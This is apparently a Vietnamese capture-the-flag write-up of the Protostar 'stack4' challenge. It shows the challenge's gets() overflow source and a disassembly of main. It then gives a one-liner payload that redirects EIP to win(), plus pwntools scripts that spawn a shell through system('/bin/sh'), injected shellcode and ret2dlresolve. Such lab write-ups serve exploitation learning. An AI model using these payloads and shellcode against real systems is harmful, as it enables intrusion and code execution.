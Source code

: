 # stack4

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bài này cũng không có gì khó. Ghi địa chỉ hàm win vào EIP là được.
![cyclic](cyclic.png)

Mình sử dụng pwndbg + cyclic để tìm ra padding.
Xem qua hàm main nhé

```ASM (intel syntax)
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
   0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret
```

## Solution

### ghi đè EIP

Dùng Gdb hoặc objdump ta có địa chỉ của hàm win: `0x080483f4`

payload: `python -c 'print "a"*76 +"\xf4\x83\x04\x08"' | ./stack4`

![solution](solution.png)

## spawn shell

vẫn tương tự các bài trước :D

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 76*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack4')
p.sendline(payload)
p.interactive()
```

![shell](shell.png)

### inject shellcode

```python
#!/usr/bin/python3
from pwn import *

padding = b'a'*76
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack4')
p.sendline(payload)
p.interactive()
```

### ret2dlresolve

```python
#!python3
from pwn import *

elf = context.binary = ELF('../protostar/stack4', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.gets(dlresolve.data_addr) # gets to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
